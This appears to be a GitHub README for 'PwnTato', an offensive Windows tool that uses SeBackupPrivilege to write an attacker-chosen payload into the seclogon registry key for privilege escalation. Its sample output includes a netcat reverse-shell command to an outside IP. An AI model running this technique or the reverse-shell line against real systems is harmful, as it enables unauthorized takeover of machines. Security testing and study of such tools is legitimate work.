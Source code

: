 # PwnTato

PwnTato is a simple utility written in PureBasic that leverages the SeBackupPrivilege token privilege to inject a payload into the `seclogon` registry key. This tool is designed for educational and testing purposes only.

![PwnTato Logo](https://i.imgur.com/XDE367N.png)

## Features

- **SeBackupPrivilege Injection:** PwnTato injects the SeBackupPrivilege token privilege into the process to manipulate registry keys.

- **Registry Key Manipulation:** The tool allows users to input a custom payload, which is then written to the `seclogon` registry key.

## Prerequisites

- Windows operating system
- PureBasic compiler (for compilation)

## Usage

```shell



              ██      ██  ██
            ██  ██  ██  ██  ██  ██████
          ██  ██  ████  ██    ██    ██
        ██      ██  ██    ██  ██    ██
          ████  ██    ██    ██    ██
            ████  ██    ██  ██  ████
            ██▒▒████████████████▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ██▒▒██  ▒▒▒▒▒▒▒▒  ██▒▒██
            ██▒▒████▒▒▒▒▒▒▒▒████▒▒██
            ██▒▒▒▒▒▒▒▒████▒▒▒▒▒▒▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ████▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒████
              ████████████████████
                      v1.0
               PwnTato by @duty1g


[+] SeBackupPrivilege token injected to the process
[!] Enter your seclogon payload: c:\windows\temp\nc.exe 192.168.1.2 1337 -e cmd.exe      

```

## Binaries

Download the latest release from the [Releases](https://github.com/duty1g/PwnTato/releases) page. Choose the appropriate binary for your system.


## Disclaimer

This tool is intended for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the use of this tool.

## Author

- duty1g <a href="https://twitter.com/duty_1g"><img src="https://img.shields.io/twitter/follow/duty_1g.svg?logo=twitter"></a>

Feel free to contribute or report issues!
